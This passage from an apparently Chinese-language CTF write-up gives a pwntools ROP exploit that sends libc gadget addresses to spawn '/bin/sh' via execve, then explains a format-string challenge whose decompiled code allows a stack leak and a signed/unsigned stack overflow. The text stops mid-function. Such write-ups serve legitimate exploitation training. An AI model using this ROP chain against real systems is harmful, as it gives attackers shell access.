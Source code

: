 ```python
r.sendline("1")
libc=ELF("./libc.so.6")
rdi_add=0x2a3e5+libc_base
rsi_add=0x2be51+libc_base
rdx_add=0x904a9+libc_base#in fact,this is pop rdx ;pop rcx; ret;
rax_add=0x45eb0+libc_base
syscall_add=0x91316+libc_base
binsh_add=next(libc.search(b"/bin/sh"))+libc_base
#sys_add=libc.sym["system"]+libc_base
r.recvuntil(b":")
r.sendline(str(rdi_add))
r.recvuntil(b":")
r.sendline(str(binsh_add))
r.recvuntil(b":")
r.sendline(str(rsi_add))
r.recvuntil(b":")
r.sendline(str(0))
r.recvuntil(b":")
r.sendline(str(rdx_add))
r.recvuntil(b":")
r.sendline(str(0))
r.recvuntil(b":")
r.sendline(str(0))
r.recvuntil(b":")
r.sendline(str(rax_add))
r.recvuntil(b":")
r.sendline(str(59))
r.recvuntil(b":")
r.sendline(str(syscall_add))

r.interactive()
```

这题是可以通过控制v9的值避开canary的,不过我没这么做.

##### 3:format

格式化字符串,但限制了格式化字符串的长度,导致只能泄露一个栈地址.之后可以通过int和unsigned_int的区别得到一个超大的栈溢出.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char format[4]; // [rsp+0h] [rbp-10h] BYREF
  signed int v5; // [rsp+4h] [rbp-Ch] BYREF
  int v6; // [rsp+8h] [rbp-8h] BYREF
  int i; // [rsp+Ch] [rbp-4h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  printf("you have n chance to getshell\n n = ");
  if ( (int)__isoc99_scanf("%d", &v6) <= 0 )
    exit(1);
  for ( i = 0; i < v6; ++i )
  {
    printf("type something:");
    if ( (int)__isoc99_scanf("%3s", format) <= 0 )
      exit(1);
    printf("you type: ");
    printf(format);
  }
  printf("you have n space to getshell(n<5)\n n = ");
  __isoc99_scanf("%d\n", &v5);
  if ( v5 <= 5 )
    vuln(v5);
  return 0;
```